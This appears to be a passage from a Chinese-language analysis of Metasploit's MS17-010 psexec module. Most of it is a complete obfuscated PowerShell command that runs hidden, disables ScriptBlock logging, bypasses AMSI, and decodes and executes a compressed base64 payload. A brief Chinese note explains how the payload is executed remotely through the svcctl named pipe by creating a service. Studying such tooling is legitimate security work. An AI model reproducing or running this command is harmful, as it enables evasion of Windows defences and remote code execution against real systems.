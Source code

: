 ```plain
%COMSPEC% /b /c start /b /min powershell.exe -nop -w hidden -noni -c "if([IntPtr]::Size -eq 4){$b='powershell.exe'}else{$b=$env:windir+'\syswow64\WindowsPowerShell\v1.0\powershell.exe'};$s=New-Object System.Diagnostics.ProcessStartInfo;$s.FileName=$b;$s.Arguments='-noni -nop -w hidden -c  $yh=[Collections.Generic.Dictionary[string,System.Object]]::new();If($PSVersionTable.PSVersion.Major -ge 3){ $u0=((''''+''{1}''+''c{0}ipt{2}lock''+''Logg''+''ing'')-f''r'',''S'',''B''); $ov=[Ref].Assembly.GetType(((''{2}{4}st''+''em.{0}''+''a''+''nag''+''ement.{3}''+''utomation.{1''+''}ti''+''{5}s'')-f''M'',''U'',''S'',''A'',''y'',''l'')); $pmnF=((''''+''EnableSc{1}i{0}t{3}l''+''o''+''c''+''{2}''+''Logging'')-f''p'',''r'',''k'',''B''); $crCde=$ov.GetField(''cachedGroupPolicySettings'',''NonPublic,Static''); $xI=[Ref].Assembly.GetType(((''''+''{0}''+''{1''+''}''+''st''+''em{9''+''}{4}ana''+''{6}ement''+''{9}{''+''7''+''}''+''{''+''3}t{8}ma''+''ti''+''{8}''+''n{9''+''}{7}msi''+''{''+''5''+''}''+''ti{2}s'')-f''S'',''y'',''l'',''u'',''M'',''U'',''g'',''A'',''o'',''.'')); if ($xI) { $xI.GetField(((''''+''a{0}s''+''i{''+''1}''+''nit{4}''+''a''+''il{3}''+''{2''+''}'')-f''m'',''I'',''d'',''e'',''F''),''NonPublic,Static'').SetValue($null,$true); }; If ($crCde) { $kCnF_=((''{3}nab''+''l{2}''+''{1}cript{4''+''}lock{0''+''}''+''nvocation{5''+''}o''+''gging'')-f''I'',''S'',''e'',''E'',''B'',''L''); $xpL=$crCde.GetValue($null); If($xpL[$u0]){ $xpL[$u0][$kCnF_]=0; $xpL[$u0][$pmnF]=0; } $yh.Add($pmnF,0); $yh.Add($kCnF_,0); $xpL[''HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\''+$u0]=$yh; } Else { [Ref].Assembly.GetType(((''''+''S{4}''+''stem.''+''{''+''1''+''}an''+''agement.{5}utomation.Sc{2}i{3}''+''tB{0}o''+''ck'')-f''l'',''M'',''r'',''p'',''y'',''A'')).GetField(''signatures'',''NonPublic,Static'').SetValue($null,(New-Object Collections.Generic.HashSet[string])); }};&([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String(((''H4sIAOED{1}WUCA71WbW/aSBD+flL/g1Uh2agEG0KbJlKlW5sYSAKYOLwXnTb2Yrasvc{1}e{0}kiv//1mj{1}2IklS9k3qWSPZlZnb2mWdmdr6OPEF5pOBbU3SV7+/+ULLPwTEOFa2wjT6WlMKcseJ+r7BCF8oX{1}Zui1arO{''+''0}0yj2dmZtY5jEondvNwgAiUJCW8ZJYlWVP5Whgs''+''Sk6Pu7TfiCeW7Uvir3GD8FrNMbGthb0GUIxT5cu+Ke1g6VnZXjApN/fpV''+''LU6PKrPy+d0as0{1}T3W0iSFj2GVOLyo+iPPBmuyKa2qZezBM+F+UhjY6r5X6U4''+''DnpgLV70iZi''+''wf1EhbvsbxMTsY6j9FLSyk5GU2H''+''ox''+''NxDvh+TJFFLylTan85mf2rT7PDrdS{1''+''}oSMqtSJCYr1wS31OPJOUmjnxGrsl8BlquiGkUzIpFELvnS6IVojVjJeXfmNE6ZJND96tK2qESSDkiLpYgoC+v2eb+mpGdovqKn5ID{1}fgyHgB4Py{1}+85w7/skrxNkv5N803SHgrubwhKaqXxSjpLThZCx4vIVp4SZek+LsCWylEMZGo/Sr1iq5Kij6Ixs1YG064NSf7S08C36BDKTI20SukzmNSH0b4ZB6OVe11wJC5oykgJ{1}zs{0}44qKnZBvHrhJEAC4mx5MULtfO{0}iiddc02ZT2Lk{0}VAT8AriXXzuzC5smtqK2i{0}E9HZzVUYJMoTk0llWbPPT5{1}yEVIvhJCkpzhpS1CspLsGM+CUF{1}{0}nNttBa8HSo7t1tr5mgHk5Ebm5WfAZmdqjFo0TEaw+iCgDcuCviUcwkHiWlSX1ibl0a5Ierr6JhYcYgccDSPU{0}DVi{0}KrpBcicHPlBfFs''+''ktEK1wxEoJMWjBshgMoD1l6pOTCAfHVV93Mk2DHeIlKDs''+''eBkxBql3F{1}UgY0FlB8JMIpt/6TEy/rDnhjxSSLjJZn19TcCpkAhejxI65IjmY{0}pYDEAsCwYx6aOCGfarsao73Xu9{1}B8I1bEWv7F0taaW3g14Zfvz3/cOX{1}wBEGD9uelTgN''+''+zOim2Djfe4''+''gz7/wyak7qAn3vCU''+''sBzV71DBrC880buS4EgTI71655qK38Jjh1Ju6O04MumkO217dfNxUE2BqrdYcGej4uNY9NpaA3xj0lsjvhHTzcAVjT9owW4lptNj5hXV9O6zakyFr6jV7M{1}/yxP00ruu6furjenuLkMn94/Z2VLnmN00vNGs{1}10+t2hKdI2{1}F5wPb5JdjM0aOPsDBim8uA/MqDCxk2h4lk17''+''fNns920T9xre7+qke6KfDEV6Yw0GVTlaj6wX''+''M7U2zd6kbtZZPHvlkA8A1OMLBNcgEVtVbzEGm/gGZHzo8qeKlyZEJMvbkDjUW45XtMNi''+''/6Vc5GrDOCKOrydbW9crYqaGmwYeNAPVAHAdmD6''+''Pkvv5Y''+''1ysDn/vDj53xXB+M2Ilet3rOYiTvrK9C+XfTrF96k8rG657UTOPOCmnIbqu+ftr/bEZw{0}+c+8HvDk+uHzvYWzu3r+uA9MGbap5E4rgJZ+lb3k6yq7/4o3DtodMCbtxpGG8fJAjPgE7SCPKttHttZeXc4l{1}qatnsiLEkcE{0}Z9FTpvnhGIMe7J5gKdANrartnI3tdvpW69NioqT4LFfc/Jl87OJuAkJFjK/vIVi{0}KxKBkPx4YBDcN4MGppKv363Sy+2mo7ayXZc1J0nuyz1D6YpHNF0/4HxOBlIaDOvYXZW/DB0UsoS1Ald7VCgmhyzg4hzG62p8{0}hggBdBW4/lY+KHVnAxhG5UwpC9t3DPl4{0}w9/MnqzqLeCf/''+''3P27Nd+svtLjDJKO3xeLD9fOOgWvxOBIaYC{1}F0o3ozsnhOvAZFlzEGMx{1}CSYZ598nXdXY''+''ujDrzX0u7xDwaZ3dfWCwAA'')-f''Q'',''R'')))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))';$s.UseShellExecute=$false;$s.RedirectStandardOutput=$true;$s.WindowStyle='Hidden';$s.CreateNoWindow=$true;$p=[System.Diagnostics.Process]::Start($s);"
```

*   psexec 函数

同上面 `auxiliary ms17_010_command` 模块中的 psexec 函数调用分析一样，通过命名管道 svcctl 远程 RPC 调用进行创建服务、启动服务、删除服务来进行 powershell payload 的执行

lib/msf/core/exploit/remote/smb/client/psexec.rb
